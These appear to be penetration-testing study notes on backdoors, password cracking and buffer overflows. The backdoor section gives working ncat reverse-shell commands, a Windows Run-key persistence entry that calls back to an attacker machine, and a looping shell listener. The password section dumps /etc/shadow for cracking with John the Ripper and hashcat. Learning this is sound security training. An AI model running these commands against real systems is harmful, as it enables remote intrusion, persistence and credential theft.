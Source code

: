 # System Attacks

## Backdoor

Backdoors have two components, server and client:

* _Server_ runs on the victim machine listening on the network in order to accept connections.
* _Client_ runs on the attacker machine.
* `Netbus` or `SubSeven` are very famous.
* If the backdoor server sits behind a firewall, the easiest way to archive a connection is using a **Connect-back Backdoor** or **Reverse Backdoor**.
* A firewall cannot tell the difference between a user surfing the web and a backdoor connecting back to the attacker's machine.

### Create stable connection to a remote host

```bash
# => Listener
ncat -l -v -p 5555 -e /bin/bash
# => Client
ncat localhost 5555

## Reverse connection
# => Attacker/Listener
ncat -l -p 5555 -v
# => Victim / Client
ncat -e /bin/bash remoteIP remotePort

# bash interactive for friendly prompt
bash -i
```

```bash
# Persist execution in windows
> regedit.exe
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run

# Add string value
Name: ncact
Value: yourpath\ncat attackerMachine Port -e cmd.exe
```

```bash
# Persistent connection script
# By default netcat does not have a persistent connection.
# You will need to run it in a while loop if you want to connect to it more than once.
# Otherwise it will close the program after the first connection:
# https://defcon.org/images/defcon-22/dc-22-presentations/Nemus/DEFCON-22-Lance-Buttars-Nemus-Intro-to-backdooring-OS.pdf

#!/bin/bash
while [ 1 ]; do
  echo | ncat -l -v -p 445 -e /bin/bash
done
```

## Password Attacks

Normally stored in an encrypted form, preventing a malicious local user from getting to know user's passwords, using a _one-way encryption algorithm_, using a cryptographic hashing function. There are three main strategies:

### Brute force attacks

> This method is only used when other attack vectors fail.

You try them all by _generating_ and testing all the possible valid passwords. Given enough time, a brute force attack is always successful.

* Long passwords made by upper and lower case letters, numbers and symbols can take days or even years to crack
* _John The Ripper_: can mount both brute force and dictionary-based attacks against a password database \(see: `john --list=formats`\)
  * Fast because of the high use of parallelization, crack strategies
  * `/etc/passwd`: contains info about user accounts
  * `/etc/shadow`: contains info about the actual password hashes
  * `john` needs the username and the password hashes to be in the same file, therefore we need to use the `unshadow` utility that comes with _John The Ripper_
  * `john -incremental -users:<users list> <file to crack>`
  * `john -incremental -users:victim crackme`
  * To display the passwords recovered by `john`, use: `john --show <file>`

### Dictionary attacks

* Common passwords
* Faster than pure brute force attacks
* Poorly chosen or default passwords are more exposed to dictionary cracking
* `john -wordlist=<custom wordlist file> <file to crack>`
* Install password dictionaries: `apt-get install seclists`
  * You'll find them in `/usr/share/seclists/Passwords`
* **Mangling words**
  * Variations on dictionary words
  * `john -wordlist=<custom wordlist file> <file to crack> -rules <file to crack>`

### Rainbow Tables

* Offer a tradeoff between the processing time needed to calculate the hash of a password and the storage space needed to mount an attack.
* A rainbow table contains links between the results of a run of one hashing function and another.
* Rainbow tables are BIG in file size, but reduces a cracking session from days to seconds.
* Great choice to crack simple and complex short passwords.
* `Ophcrack` rainbow cracking for Windows authentication passwords \(can run on Linux too\).

## John the Ripper

```bash
unshadow /etc/passwd /etc/shadow > hashes.txt
john --wordlist=/usr/share/john/password.lst hashes.txt
cat /root/.john/john.pot
```

## Hashcat

```bash
# -m hash-type
# -a various attack mode
# -b benchmark
# -D specify the device
# -O optimize performance

> hashcat -b

# Wordlist attack
> hashcat -m 0 -a 0 -D2 example.hash example.dict
# -m 0 md5 type of hash
# -a 0 simple dictionary attack

# Rules
# Mutate dictionary words by setting different rules
custom.rule:

l
u
c
r
$1
$2
[
]
^1
^a
^!$!

# also hashcat comes with builtin rules

# Mask Attack
# 5 letter passwords = 5 masks
> hascat -m 0 -a 3 example.hash ?l?l?l?l
```

## Buffer Overflow Attacks

A BoF attack can lead to:

* An app or OS crash \(DoS\).
* Privilege escalation.
* Remote code execution.
* Security features bypass.

A buffer is an area in the RAM reserved for temporary data storage:

* User input, parts of a video file, server banners received by a client application. etc.
* Buffers have a finite size, therefore: if an app developer does not enforce a buffer limit, an attacker could find a way to write data beyond those limits and write there arbitrary code

### Stack

* A stack is a data structure used to store data.
* Two operation for LIFO stacks: `pop` & `push`.
* Space on the stack can be allocated from app's code.
* An overflow happens when an attacker overwrites on a reserved space, so overwriting a function return address means getting control over the app.
* If an attacker manages to overflow a local variable from the app, the attacker would be able to overwrite the _Base Pointer_ and then get a _Return Address_.
* If the attacker overwrites the _Return Address_ with the right value, they are able to control the execution flow of the program.
* This technique can be exploited by writing custom tools and applications or by using hacking tools as Metasploit.

Being able to write a buffer overflow exploit requires a deep understanding of assembly programming, how applications and OS works and some exotic programming skills.

## 

